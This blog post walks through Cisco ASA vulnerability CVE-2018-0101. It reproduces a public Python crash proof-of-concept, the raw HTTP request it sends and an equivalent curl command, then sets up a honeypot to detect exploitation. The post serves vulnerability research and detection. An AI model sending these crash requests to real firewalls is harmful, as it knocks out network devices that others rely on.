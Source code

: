 ```yaml
---
layout: post
title:  "Exploiting & Honeypotting Cisco ASA CVE-2018-0101"
tagline: "A closer look at CVE-2018-0101"
description: "A closer look at CVE-2018-0101 detailing how to exploit it and how to create a honeypot to detect it."
tags: [notes, cisco, exploits, honeypot]
date:   2018-02-10
comments: true
image:
  feature: blog/3/feature.jpg
  hero: blog/3/header.jpg
---
```


## Summary
**On 29 January 2018** [CVE-2018-0101](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20180129-asa1) - A Remote Code Execution and Denial of Service Vulnerability for Cisco ASA Web VPN - was published featuring a CVSS Base Score of 10.

For those unfamiliar, Common Vulnerability Scoring System or CVSS is a standard used for assessing the severity of vulnerabilities. The score ranges from 0 to 10 with 10 being the most serious.


## Proof of concept

**On 02 February 2018** [@saidelike](https://twitter.com/saidelike) gave a talk titled ["Robin Hood vs Cisco ASA Anyconnect"](https://recon.cx/2018/brussels/resources/slides/RECON-BRX-2018-Robin-Hood-vs-Cisco-ASA-AnyConnect.PDF) at Recon Brussels in which he included some XML on slide 19.

![](/img/posts/3/slide19.png)
*Slide 19 from Robin Hood vs Cisco ASA Anyconnect*

**On 5 February 2018** a proof of concept was published by [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius), and [@aleph__naught](https://twitter.com/Aleph___Naught) on [pastebin](https://pastebin.com/YrBcG2Ln). At first glance it appears to be a python script that sends a request to the server using the XML found earlier in the slides and some other required headers.

```python
#
# Cisco ASA CVE-2018-0101 Crash PoC
#
# We basically just read @saidelike slides:
# https://www.nccgroup.trust/globalassets/newsroom/uk/events/2018/02/reconbrx2018-robin-hood-vs-cisco-asa.pdf
#
# @zerosum0x0, @jennamagius, @aleph___naught
#

import requests, sys

headers = {}
headers['User-Agent'] = 'Open AnyConnect VPN Agent v7.08-265-gae481214-dirty'
headers['Content-Type'] = 'application/x-www-form-urlencoded'
headers['X-Aggregate-Auth'] = '1'
headers['X-Transcend-Version'] = '1'
headers['Accept-Encoding'] = 'identity'
headers['Accept'] = '*/*'
headers['X-AnyConnect-Platform'] = 'linux-64'
headers['X-Support-HTTP-Auth'] = 'false'
headers['X-Pad'] = '0000000000000000000000000000000000000000'

xml = """<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>
"""

r = requests.post(sys.argv[1], data = xml, headers = headers, verify=False, allow_redirects=False)

print(r.status_code)
print(r.headers)
print(r.text)

```

So let's go ahead and test it out!

```shell
wget https://pastebin.com/raw/YrBcG2Ln -O poc-cve-2018-0101.py
python3 poc-cve-2018-0101.py https://ciscoasa.glitchwitch.io
```

Using the PoC results in the following request, confirming my earlier first glance reading.

```http
POST / HTTP/1.1
Host: ciscoasa.glitchwitch.io
User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Aggregate-Auth: 1
X-Transcend-Version: 1
X-AnyConnect-Platform: linux-64
X-Support-HTTP-Auth: false
X-Pad: 0000000000000000000000000000000000000000
Content-Length: 156

<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>

```

With this in mind, the same request can be made using curl.
```shell_session
curl -i -s -k  -X $'POST' \
    -H $'Host: ciscoasa.glitchwitch.io' -H $'User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: application/x-www-form-urlencoded' -H $'X-Aggregate-Auth: 1' -H $'X-Transcend-Version: 1' -H $'X-AnyConnect-Platform: linux-64' -H $'X-Support-HTTP-Auth: false' -H $'X-Pad: 0000000000000000000000000000000000000000' -H $'Content-Length: 156' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"UTF-8\"?>\x0a<config-auth client=\"a\" type=\"a\" aggregate-auth-version=\"a\">\x0a    <host-scan-reply>A</host-scan-reply>\x0a</config-auth>\x0a' \
    $'https://ciscoasa.glitchwitch.io/'
```    

Ultimately if the server is vulnerable this request should cause the system to crash. In tests on Cisco ASA 9.2(4), this was the case.

## Honey Pot
Okay, so we've got a working PoC in both python and a curl request. Now let's setup a honey pot!

**On 08 February 2018** [@omercent](https://twitter.com/omercnet) from cymmetria [released a honeypot tool](https://cymmetria.com/blog/honeypot-cisco-asa-vulnerability/) for the detection of this vulnerability. So let's go ahead and get that setup.
```shell_session
git clone https://github.com/Cymmetria/ciscoasa_honeypot.git
cd ciscoasa_honeypot
pip3 install --upgrade -r requirements.txt
```
Once that's done we can start it up.
```shell_session
python3 asa_server.py --help
Usage: asa_server.py [OPTIONS]

  A low interaction honeypot for the Cisco ASA component capable of
  detecting CVE-2018-0101, a DoS and remote code execution vulnerability

Options:
  -h, --host TEXT         Host to listen
  -p, --port INTEGER      Port to listen
  -i, --ike-port INTEGER  Port to listen for IKE
  -s, --enable_ssl        Enable SSL
  -c, --cert TEXT         Certificate File Path (will generate self signed
                          cert if not supplied)
  -v, --verbose           Verbose logging
  --help                  Show this message and exit.

python3 asa_server.py -p 443 -s
```

Now if we run the PoC on our honeypot we should see the following

```shell_session
CRITICAL:root:{'data': ['A'], 'src': '10.0.0.32', 'spt': 41392}
```

## Conclusion

CVE-2018-0101 is a critical flaw and is more than just a DoS vulnerability. The vulnerability also allows remote unauthenticated attackers to perform Remote Code Execution. Although at the time of writing this, no PoC code currently exists to demonstrate the rce portion.

A big thanks to [@saidelike](https://twitter.com/saidelike), [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius),  [@aleph__naught](https://twitter.com/Aleph___Naught), and [@omercent](https://twitter.com/omercnet) for all of their work.
